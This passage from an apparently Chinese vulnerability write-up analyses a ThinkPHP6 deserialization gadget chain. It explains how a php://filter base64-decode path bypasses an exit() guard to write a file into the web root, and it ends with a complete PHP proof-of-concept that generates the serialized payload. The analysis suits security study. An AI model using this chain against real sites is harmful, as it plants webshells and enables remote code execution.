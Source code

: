 #### POC链流程图

![](https://p2.ssl.qhimg.com/t0166168b06fc955f2c.png)

### exp-2
> 继续跟进 `src/think/cache/driver/File.php` 中的 `set()` 方法，在 `serialize()` 方法后还有一个 `file_put_contents()` 方法

![](https://p4.ssl.qhimg.com/t01f542ee81e1a61396.png)

> 主要看看 `$filename` 和 `$data` 这两个参数是怎么赋值的，先跟进一下 `$filename` 参数，其值来源于 `getCacheKey()` 方法，跟进该方法发现 `$filename` 参数是可控的：`$name `为文件名来源于 `$this->key`，`$this->options['hash_type']` 也可控，最终文件名是经过 hash 后的，所以最终文件名可控，`$this->options['path']` 使用 `php filter` 构造 `php://filter/write=convert.base64-decode/resource=think/public/`
> 接着再来看看 `$data` 参数，前面分析已知来源于 `$this->serialize`，此处存在 exit()，正好结合上一步的文件名构造利用 `php://filter` 来绕过死亡 exit()，[参考文章](https://www.leavesongs.com/PENETRATION/php-filter-magic.html)：假设传入的 `$expire=1`，那么写入的 webshell 前面部分在拼接之后能够被解码的有效字符为：`php//000000000001exit` 共有21个，要满足 base64 解码的 4 字符为 1 组的规则，在其前面补上 3 个字符用于逃逸之后的 base64 解码的影响

#### POC
```php
<?php 

namespace League\Flysystem\Cached\Storage {
    abstract class AbstractCache {
        protected $autosave = false;
        protected $complete = "uuuPD9waHAgcGhwaW5mbygpOw==";
    }
}

namespace think\filesystem {
    use League\Flysystem\Cached\Storage\AbstractCache;
    class CacheStore extends AbstractCache {
        protected $key = "1";
        protected $store;
        public function __construct($store="") {
            $this->store = $store;
        }
    }
}

namespace think\cache {
    abstract class Driver {
        protected $options = ["serialize"=>["trim"],"expire"=>1,"prefix"=>false,"hash_type"=>"md5","cache_subdir"=>false,"path"=>"php://filter/write=convert.base64-decode/resource=C:/Tools/phpstudy_pro/WWW/html/ThinkPHP6/public/","data_compress"=>0];
    }
}

namespace think\cache\driver {
    use think\cache\Driver;
    class File extends Driver{}
}

namespace {
    $file = new think\cache\driver\File();
    $cache = new think\filesystem\CacheStore($file);
    echo base64_encode(serialize($cache));
}
?>
```
